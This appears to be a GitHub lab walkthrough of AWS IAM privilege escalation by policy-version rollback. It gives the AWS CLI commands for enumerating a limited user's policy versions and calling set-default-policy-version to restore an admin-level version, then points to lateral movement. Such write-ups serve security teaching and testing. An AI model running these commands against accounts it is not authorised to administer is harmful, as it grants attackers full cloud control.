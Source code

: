 Starting with a highly-limited IAM user, the attacker is able to review previous IAM policy versions and restore one which allows full admin privileges, resulting in a privilege escalation exploit.

Enumeration:
Who am i ?
```
aws --profile PROFILENAME sts get-caller-identity
```

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/5c63fd87-90b8-4df3-8082-ae35a60cc688)

Listing the user policies:

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/bb1ef0b1-da61-42aa-8cf7-aa2add8137a6)

Listing the policy versions:

```
aws --profile PROFILENAME iam list-policy-versions --policy-arn ARN_NAME
```
![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/020d2f6e-3fed-45a1-ace8-3552b98e9db8)

The output of this lets us know that there are 5 versions of our current policy and we are currently using version `v1`. This does not tell us what version `v1` has access to though, to learn that run the following command.

Getting the policy:

```
aws iam get-policy-version --policy-arn <raynor policy arn> --version-id v1
```

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/d491efb7-bbfe-4c1a-8265-9015c14a9c7a)

Based on the output of the command we can see that all IAM:Get and IAM:List calls will be allowed as well as IAM:SetDefaultPolicyVersion. The important bit is that we can set the default version of our policy. If a previous version has a higher level of access than our current version, we can set that one as the default and gain an elevated level of access.

After looking at the permissions associated with each version, v3 looks to offer us the highest level of permissions.

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/bd5d6a73-a1c4-4aed-beed-1403a8ae8abe)

We can now escalate privleges with a simple command.

```
aws iam set-default-policy-version --policy-arn <raynor policy arn> --version-id v3
```

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/de51f171-21e1-486c-bc9b-0f4337a58ed2)

We have now successfully escalated our privileges and from here we can further enumerate for various attack paths to laterally move across the organization. 
